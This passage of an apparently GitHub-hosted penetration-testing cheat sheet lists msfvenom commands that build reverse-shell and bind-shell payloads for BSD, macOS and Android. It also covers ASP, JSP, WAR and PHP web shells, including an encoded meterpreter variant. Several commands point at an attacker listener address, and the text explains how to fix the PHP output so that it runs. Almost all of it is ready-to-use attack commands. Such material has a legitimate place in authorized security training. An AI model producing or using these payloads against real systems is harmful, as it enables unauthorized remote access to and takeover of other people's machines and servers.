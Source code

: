 ```
msfvenom -p bsd/x86/shell/reverse_tcp LHOST=10.11.0.202 LPORT=21 -f elf --platform bsd -o /var/www/bsd21rev
```

### MAC Paylaods

#### Reverse Shell:
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
#### Bind Shell:
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
### Android Payloads

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=localhost LPORT=608 -R > android.apk
```

### Web Based Payloads

#### ASP

#### Reverse shell :

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp

msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o shell.asp

msfvenom -a x64 --platform windows windows/shell_reverse_tcp LHOST=10.11.0.202 LPORT=443 -f asp -o ~/pwk_recon/mal_files/OS-
27060-64.asp

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=10.11.0.202 LPORT=6666 -f asp -o shell.asp
```
#### JSP

#### Reverse shell:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
#### WAR

#### Reverse Shell:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
#### php shells
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.202 LPORT=5555 -f raw > shell.php
```
Then you have to view the shell.php with a text editor and modify the start and end of the file. You must remove the comment or add in the correct php starting and ending code. remove // before starting php tag "<?php" and make sure the ending php tage is added to the file "?>" without quotes. 
```
msfvenom -p php/reverse_php LHOST=10.11.0.202 LPORT=443 -f raw > backdoorphp1.php

msfvenom -p php/reverse_php LHOST=10.11.0.202 LPORT=8080 -f raw > backdoorphp2.php
```
